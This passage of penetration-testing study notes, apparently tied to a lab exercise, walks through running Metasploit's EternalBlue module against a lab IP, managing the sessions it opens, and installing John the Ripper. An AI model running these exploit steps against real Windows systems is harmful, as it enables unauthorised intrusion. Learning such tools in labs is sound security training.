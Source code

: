     - Use `use exploit/windows/smb/ms17_010_eternalblue`.
    - Set `rhosts` to the target's IP (e.g., `set rhosts 10.10.165.39`).
    - Run the exploit with `exploit`.
2. **Switch to a Scanning Module:**
    
    - After setting global parameters using `setg`, switch to a scanner module:
        - `use auxiliary/scanner/smb/smb_ms17_010`.
    - The parameters (like `rhosts`) will remain set.
3. **Background Session and Interact with It:**
    
    - Once the exploit creates a session, use `background` to return to the main prompt.
    - Use `sessions` to see active sessions and `sessions -i <id>` to interact with a specific session.

---

#### **Key Commands Recap**

- **Module Selection:**
    
    - `use <module_name>`: Select the module you want to use.
- **Set Parameters:**
    
    - `set PARAMETER_NAME VALUE`: Set a specific parameter for a module.
    - `setg PARAMETER_NAME VALUE`: Set a global parameter for all modules.
- **View Options:**
    
    - `show options`: Display available parameters for the selected module.
- **Execute Exploit:**
    
    - `exploit`: Run the exploit against the target.
    - `exploit -z`: Run the exploit and background the session.
- **Session Management:**
    
    - `sessions`: List all active sessions.
    - `sessions -i <id>`: Interact with a specific session.
    - `background`: Send the current session to the background.
    - `back`: Exit the module and return to the Metasploit prompt.
- **Unset Parameters:**
    
    - `unset PARAMETER_NAME`: Clear a specific parameter.
    - `unset all`: Clear all set parameters.

---




## John the ripper EXPLANATION
 

### 1. Installation
First, you need to install John the Ripper. The installation process depends on your operating system.

#### On Linux:
You can install John the Ripper using the package manager. For example, on Debian-based systems like Ubuntu, you can use:
```sh
sudo apt-get update
sudo apt-get install john
```
